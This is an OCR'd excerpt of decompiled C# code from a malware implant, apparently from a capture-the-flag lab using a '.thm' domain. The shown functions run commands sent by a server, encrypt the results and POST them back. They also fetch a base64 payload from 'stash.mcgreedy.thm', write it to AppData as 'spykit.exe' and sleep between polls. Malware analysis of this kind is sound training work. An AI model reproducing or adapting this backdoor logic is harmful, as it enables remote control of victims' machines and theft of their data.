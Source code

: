                                     }
                                 }
                                 else
                                 {
                                    string text2 = Program.Implant("http://stash.mcgreedy.thm/spykit.exe");
                                    if (!string.IsNullOrEmpty(text2))
                                    {
                                       string str3 = Program.Encryptor(text2);
                                       string data2 = "result=" + str3;
                                       Program.PostIt(url3, data2);
                                    }
                                 }
                              }
                              else
                              {
                                 string str4 = Program.Encryptor(Program.ExecuteCommand(text));
                                 string data3 = "result=" + str4;
                                 Program.PostIt(url3, data3);
                              }
                           }
                           else
                           {
                              count = int.Parse(text) * 1000;
                           }
                           if (flag)
                           {
                              break;
                           }
                        }
                     }
                  }

                  // Token: 0x06000002 RID: 2 RVA: 0x000021BC File Offset: 0x000003BC
                  public static string Implant(string url)
                  {
                     byte[] bytes = Convert.FromBase64String(Program.GetIt(url));
                     string text = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\spykit.exe";
                     File.WriteAllBytes(text, bytes);
                     if (File.Exists(text))
                     {
                        return text;
                     }
                     return "";
                  }

                  // Token: 0x06000003 RID: 3 RVA: 0x000021FD File Offset: 0x000003FD
                  public static void Sleeper(int count)
                  {
                     Thread.Sleep(count);
                  }

